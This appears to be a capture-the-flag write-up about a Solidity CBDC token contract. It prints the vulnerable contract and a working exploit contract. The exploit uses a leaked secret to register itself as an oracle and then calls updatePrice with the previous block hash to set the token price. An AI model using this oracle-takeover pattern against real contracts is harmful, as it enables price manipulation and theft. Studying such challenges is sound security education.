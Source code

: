 **Description**

This episode is just completing the previous one, by showing a way we can use the privilege we gained from the previous episode. Basically,  the oracles started updating the price the way they wanted, which we should prevent. Let's see how we can do this.

- **CBDC.sol**
```solidity=
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract CBDC is ERC20 {
    uint256 public initialSupply = 1000000000000 ether; // 1 trillion & 18 decimals
    uint256 public inflation = 100000000 ether;
    address public centralBank;
    uint256 public usdPrice = 100000;
    mapping(address => bool) public oracles;

    constructor() ERC20("Central Bank Digital Currency", "CBDC") {
      _mint(msg.sender, initialSupply);
      centralBank = msg.sender;
    }

    function addOracle(string calldata _secret) public {
        // https://twitter.com/CentralBankDigi
        bytes32 answer = 0x70b00831d459e9f2e4b22b203fbdfd5d1830d5c16a36579bcbb12f91de2159e9;
        bytes32 yourAnswer = keccak256(abi.encode(_secret));
        require(yourAnswer == answer, "You Will Never Break In");
        oracles[msg.sender] = true;
    }

    function testAnswer(string calldata _secret) public pure returns (bytes32) {
        bytes32 yourAnswer = keccak256(abi.encode(_secret));
        return yourAnswer;
    }

    function isOracle(address _checkAddress) public view returns (bool) {
        return oracles[_checkAddress];
    }

    function printMoney() public {
        require(oracles[msg.sender] == true, "Only The Elite Can Print Money");
        _mint(centralBank, inflation);
    }

    function updatePrice(bytes32 _blockHash, uint256 _usdPrice) public {
        require(oracles[msg.sender] == true, "Only The Elite Can Manipulate Markets");
        uint256 blockNumber = block.number - 1;
        bytes32 blockHash = blockhash(blockNumber);
        require(blockHash == _blockHash, "Only Smart Contracts Can Manipulate Markets");
        usdPrice = _usdPrice;
    }

}
```
**Attack Scenario**
We start by creating our contract, which will call the functions from the CBDC contract. Remember the secret word from the previous episode? Well, we're going to use it to add our contract to the oracles, and then we're going to call the `updatePrice()` function, but it needs the blockHash, We can implement the same logic in our code, and it will still be the same. Let's take a look at the exploit contract:

```solidity=
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.0;

interface CBDC {
  function addOracle(string calldata _secret) external;
  function updatePrice(bytes32 _blockHash, uint256 _usdPrice) external;
}

contract PriceUpdater{
    address cbdc = 0x094251c982cb00B1b1E1707D61553E304289D4D8;
    function updatePrice(string calldata _secret) public {    
        uint blockNumber = block.number;
        CBDC(cbdc).addOracle(_secret);
        CBDC(cbdc).updatePrice(blockhash(blockNumber - 1), 972);
    }
}
```

Calling the `updatePrice()` function with the secret word in the arguments will add itself as an oracle and set the price to 972, which is the price that was asked for in the episode.

**Recommendation**
The issue can be reolved by applying the recommendation of the previous episode.